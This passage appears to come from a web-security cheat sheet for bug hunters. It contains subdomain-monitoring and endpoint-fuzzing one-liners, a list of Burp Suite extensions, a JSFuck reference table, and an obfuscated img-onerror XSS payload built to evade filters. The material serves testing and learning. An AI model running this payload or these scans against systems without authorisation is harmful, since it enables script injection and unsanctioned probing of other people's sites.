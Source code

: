 ### Monitoring Oneliner

```c
$ while :; do echo <DOMAIN> | haktrails subdomain | anew subdomains.txt; sleep 86400; done | notify
```

## Burp Suite Extensions

* JS Link Finder
* Upload Scanner
* Turbo Intruder
* HTTP Request Smuggler
* Auth Analyzer

## JavaScript

### JSFuck

> http://www.jsfuck.com/

> https://github.com/aemkei/jsfuck

> https://github.com/aemkei/jsfuck/blob/master/jsfuck.js

```c
![]                                          // false
!![]                                         // true
[][[]]                                       // undefined
+[![]]                                       // NaN
+[]                                          // 0
+!+[]                                        // 1
!+[]+!+[]                                    // 2
[]                                           // Array
+[]                                          // Number
[]+[]                                        // String
![]                                          // Boolean
[]["filter"]                                 // Function
[]["filter"]["constructor"]( <CODE> )()      // eval
[]["filter"]["constructor"]("<FOOBAR>")()    // window
```

#### Encoded Payload

```c
<img src onerror="(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[]) [+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]++[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]]">
```

## Enumerate Subdomains, Web Servers and API Endpoints

```c
$ subfinder -d <DOMAIN> -silent | /home/<USERNAME>/go/bin/httpx -silent -o <DOMAIN>_httpx.txt; for i in $(cat <DOMAIN>_httpx.txt); do DOMAIN=$(echo $i | /home/<USERNAME>/go/bin/unfurl format %d); ffuf -u $i/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/api/api-endpoints.txt -o ${DOMAIN}_ffuf.txt; done
```
